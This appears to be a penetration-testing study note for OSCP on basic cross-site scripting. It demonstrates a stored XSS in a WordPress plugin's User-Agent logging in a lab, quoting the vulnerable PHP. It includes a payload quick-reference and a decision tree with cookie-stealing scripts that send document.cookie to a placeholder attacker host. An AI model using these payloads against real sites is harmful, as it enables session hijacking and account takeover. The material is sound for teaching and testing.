

---
tags:
  - phase/exploitation
  - web
  - xss
---

# Basic XSS

> [!tip] Quick Reference — XSS
> | Type | Payload |
> |------|---------|
> | Basic test | `<script>alert(1)</script>` |
> | Image onerror | `` |
> | SVG | `<svg onload=alert(1)>` |
> | Cookie steal | `<script>document.location='http://<LHOST>/?c='+document.cookie</script>` |
> | Attribute inject | `" onmouseover="alert(1)` |
> | Filter bypass | `<ScRiPt>alert(1)</ScRiPt>` |

## Decision Tree

```
User input reflected in page?
├── Test basic: <script>alert(1)</script>
│   ├── Popup appears → Stored or Reflected XSS
│   └── No popup → check page source for output
│       ├── Output in attribute → " onmouseover="alert(1)
│       ├── Output in JS context → ';alert(1);//
│       └── Filtered → try alternatives (img, svg, uppercase, encoding)
│
├── Stored XSS (persists for other users)?
│   └── Higher impact — can target admin sessions
│       ├── Cookie theft (if no HttpOnly)
│       │   └── <script>fetch('http://<LHOST>/?c='+btoa(document.cookie))</script>
│       └── Admin action via CSRF + XSS
│           └── Craft JS to perform action as admin (create user, change password)
│
└── Reflected XSS?
    └── Needs victim to click URL — less useful for OSCP unless specifically required
```

## Visual Flow



> [!success] What success looks like
> After sending the crafted `User-Agent: <script>alert(42)</script>` and getting a 200 OK, you log in as admin, open the Visitors plugin dashboard, and a pop-up banner shows **42** — proving your script was stored and then executed in the admin's browser.

> [!danger] Common errors
> - No pop-up when the admin loads the plugin → the payload may have been HTML-encoded or stripped; inspect the stored value in the response and adjust the context. See [[🔣 Encoding Reference]].
> - You inject the payload but never see it fire → here the bug is **stored**, so the alert only triggers when the *admin* loads the Visitors plugin page, not when you send the request.
> - Note: once wrapped in `<script>` tags, the User-Agent string itself won't render as visible text in the table — that is expected; the browser executes it instead of displaying it.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

> [!tip] Beginner note
> An `alert(42)` box proves nothing useful by itself — it is just the quickest visual proof that *your* JavaScript ran. Once confirmed, you replace the harmless alert with real attack code (like creating a new administrator), which is covered in [[Privilege Escalation via XSS]].

## Resources
- [HackTricks — XSS](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
- [PayloadsAllTheThings — XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [XSS Hunter](https://xsshunter.trufflesecurity.com) — blind XSS callbacks


Let's demonstrate basic XSS with a simple attack against the OffSec WordPress instance. The WordPress installation is running a plugin named Visitors that is vulnerable to stored XSS. The plugin's main feature is to log the website's visitor data, including the IP, source, and User-Agent fields.
[https://downloads.wordpress.org/plugin/visitors-app.0.3.zip](https://downloads.wordpress.org/plugin/visitors-app.0.3.zip)
This PHP function is responsible for parsing various HTTP request headers, including the User-Agent, which is saved in the useragent record value.


From the above code, we'll notice that the useragent record value is retrieved from the database and inserted plainly in the Table Data (td) HTML tag, without any sort of data sanitization.

As the User-Agent header is under user control, we could craft an XSS attack by inserting a script tag invoking the alert() method to generate a pop-up message. Given the immediate visual impact, this method is very commonly used to verify that an application is vulnerable to XSS.


With Burp configured as a proxy and Intercept disabled, we can start our attack by first browsing to
[http://offsecwp/](http://offsecwp/)
using Firefox.

We'll then go to Burp Proxy > HTTP History, right-click on the request, and select Send to Repeater.


(<script>alert(42)</script>)

If the server responds with a 200 OK message, we should be confident that our payload is now stored in the WordPress database.

To verify this, let's log in to the admin console at
[http://offsecwp/wp-login.php](http://offsecwp/wp-login.php)
using the admin/password credentials.

If we navigate to the Visitors plugin console at
[http://offsecwp/wp-admin/admin.php?page=visitors-app%2Fadmin%2Fstart.php,](http://offsecwp/wp-admin/admin.php?page=visitors-app%2Fadmin%2Fstart.php,)
we are greeted with a pop-up banner showing the number 42, proving that our code injection worked.


Excellent. We have injected an XSS payload into the web application's database and it will be served to any administrator that loads the plugin. A simple alert window is a somewhat trivial example of what can be done with XSS, so let’s try something more interesting, like creating a new administrative account.

> [!example] How the record is stored (database.php)
> The plugin saves the raw `User-Agent` header straight into the database with no sanitization:
> ```php
> function VST_save_record() {
>     global $wpdb;
>     $table_name = $wpdb->prefix . "VST_registros";
>     VST_create_table_records();
>     return $wpdb->insert(
>         $table_name,
>         array(
>             'patch'     => $_SERVER["REQUEST_URI"],
>             'datetime'  => current_time('mysql'),
>             'useragent' => $_SERVER["HTTP_USER_AGENT"],
>             'ip'        => $_SERVER['HTTP_X_FORWARDED_FOR']
>         )
>     );
> }
> ```


> [!example] How the record is rendered (start.php)
> When an admin loads the plugin, each stored value is echoed straight into a table cell — the `useragent` field is placed inside `<td>` tags with no encoding, so any script it contains executes:
> ```php
> $i = count(VST_get_records($date_start, $date_finish));
> foreach (VST_get_records($date_start, $date_finish) as $record) {
>     echo "
>     <tr class='active'>
>         <td scope='row'>".$i."</td>
>         <td scope='row'>".date_format(date_create($record->datetime), get_option('links_updated_date_format'))."</td>
>         <td scope='row'>".$record->patch."</td>
>         <td scope='row'><a href='https://www.geolocation.com/es?ip=".$record->ip."#ipresult'>".$record->ip."</a></td>
>         <td>".$record->useragent."</td>
>     </tr>";
>     $i--;
> }
> ```


> [!info]
> Although this was a white-box approach (reading the plugin source), the same vulnerability could have been found black-box by fuzzing HTTP headers such as `User-Agent`.


> [!info] Send the request to Repeater
> In Burp Proxy → HTTP history, right-click the `GET /` request to `offsecwp` and choose **Send to Repeater** (Ctrl+R) so you can edit and resend it.


> [!example] Inject the payload in Repeater
> In the Repeater tab, replace the `User-Agent` header value with the alert payload and send:
> ```http
> GET / HTTP/1.1
> Host: offsecwp
> User-Agent: <script>alert(42)</script>
> ```
> A `200 OK` response means the payload is now stored in the WordPress database.


> [!success] Vulnerability demonstrated
> Logging in as admin and opening the Visitors plugin dashboard (`/wp-admin/admin.php?page=visitors-app%2Fadmin%2Fstart.php`) triggers a pop-up showing **42** — the stored script executed in the admin's browser, confirming stored XSS.

---
%% graph-links %%
## Related
- [[Identifying XSS Vulnerabilities]]
- [[Privilege Escalation via XSS]]
- [[Stored vs Reflected XSS Theory]]

> [!info] Navigation
> Section: [[Web Applications/Cross-Site Scripting/_index|Cross-Site Scripting]] · Home: [[🏠 Home]]

